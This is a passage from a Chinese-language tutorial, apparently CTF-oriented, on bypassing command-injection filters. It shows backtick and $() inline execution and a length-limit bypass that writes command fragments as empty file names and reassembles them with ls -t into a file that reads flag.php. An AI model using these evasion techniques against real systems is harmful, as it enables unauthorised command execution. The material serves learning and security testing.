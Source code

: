 ### 1.5 内敛执行绕过

内敛，就是将`` `命令` ``或`$(命令)`内命令的输出作为输入执行

```
[root@localhost home]# cat `ls`
cat: pci: 是一个目录

[root@localhost home]# cat $(ls)
cat: pci: 是一个目录
```

### 1.6 长度限制绕过 (文件构造绕过)

通常利用 ls -t、>、>> 和换行符 \ 绕过长度限制

使用 ls -t 命令，可以将文件名按照时间顺序排列出来 (后创建的排在前面)

使用 >，可以将命令结果存入文件中

使用 >>，可以将字符串添加到文件内容末尾，不会覆盖原内容

使用换行符 \，可以将一条命令写在多行

```
linux下可以用 1>a创建文件名为a的空文件
ls -t>test则会将目录按时间排序后写进test文件中
sh命令可以从一个文件中读取命令来执行
```

创建文件名可以连成要执行命令的空文件

```
[root@localhost test]# ls
flag.php
[root@localhost test]# >"php"
[root@localhost test]# >"ag.\\"
[root@localhost test]# >"fl\\"
[root@localhost test]# >"t \\"
[root@localhost test]# >"ca\\"
[root@localhost test]# 
用2个反斜杠的原因：用前1个反斜杠转义后1个反斜杠
```

执行`ls -t>getflag`将目录下的文件名按时间排序后写进 getflag 文件里

```
[root@localhost test]# ls -t>getflag
[root@localhost test]# ls -t
getflag  ca\  t \  fl\  ag.\  php  flag.php
[root@localhost test]#
[root@localhost test]# cat getflag
getflag
ca\
t \
fl\
ag.\
php
flag.php
```
